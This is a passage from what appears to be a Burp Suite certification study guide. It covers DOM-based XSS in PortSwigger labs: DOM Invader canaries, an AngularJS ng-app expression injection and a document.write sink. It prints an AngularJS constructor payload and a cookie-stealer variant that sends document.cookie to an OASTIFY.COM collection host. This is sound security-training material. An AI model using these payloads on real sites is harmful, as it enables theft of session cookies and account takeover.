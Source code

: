 ### Dom Invader  

>Using Dom Invader plug-in and set the canary to value, such as `domxss`, it will detect DOM-XSS sinks that can be exploit.  

![DOM Invader](images/dom-invader.png)  

### Vulnerable AngularJS
  
>AngularJS expression below can be injected into the search function when angle brackets and double quotes HTML-encoded. The vulnerability is ***identified*** by noticing the search string is enclosed in an **ng-app** directive and `/js/angular 1-7-7.js` script included. Review the HTML code to ***identify*** the `ng-app` directive telling AngularJS that this is the root element of the AngularJS application.  

![domxss-on-constructor.png](images/ng-app-code-review.png)  

>PortSwigger lab payload below:

```JavaScript
{{$on.constructor('alert(1)')()}}
```  

>[Cookie stealer payload](https://github.com/botesjuan/Burp-Suite-Certified-Practitioner-Exam-Study/blob/5cbfeb2a11577ad62a31f72635a000bf5dcce293/payloads/CookieStealer-Payloads.md) using `on.constructor` that can be placed in iframe, hosted on an exploit server, resulting in the victim session cookie being send to Burp Collaborator.  
>[PortSwigger cheat sheet for cross site scripting reference](https://portswigger.net/web-security/cross-site-scripting/cheat-sheet#angularjs-reflected--1.0.1---1.1.5-(shorter))  

```JavaScript
{{$on.constructor('document.location="https://OASTIFY.COM?c="+document.cookie')()}}
```  

>**Note:** The session cookie property must not have the **HttpOnly** secure flag set in order for XSS to succeed.  

![domxss-on-constructor.png](images/domxss-on-constructor.png)  

[PortSwigger Lab: DOM XSS in AngularJS expression with angle brackets and double quotes HTML-encoded](https://portswigger.net/web-security/cross-site-scripting/dom-based/lab-angularjs-expression)  

[z3nsh3ll give an amazingly detail understanding on the constructor vulnerability in this lab on YouTube](https://youtu.be/QpQp2JLn6JA)  

### Doc Write Location search

>The target is vulnerable to DOM-XSS in the stock check function. `source code` reveal ```document.write``` is the sink used with ```location.search``` allowing us to add **storeId** query parameter with a value containing the JavaScript payload inside a ```<select>``` statement.  

![DOM-XSS doc write inside select](images/dom-xss-doc-write-inside-select.png)  

>Perform a test using below payload to ***identify*** the injection into the modified GET request, using `">` to escape.  
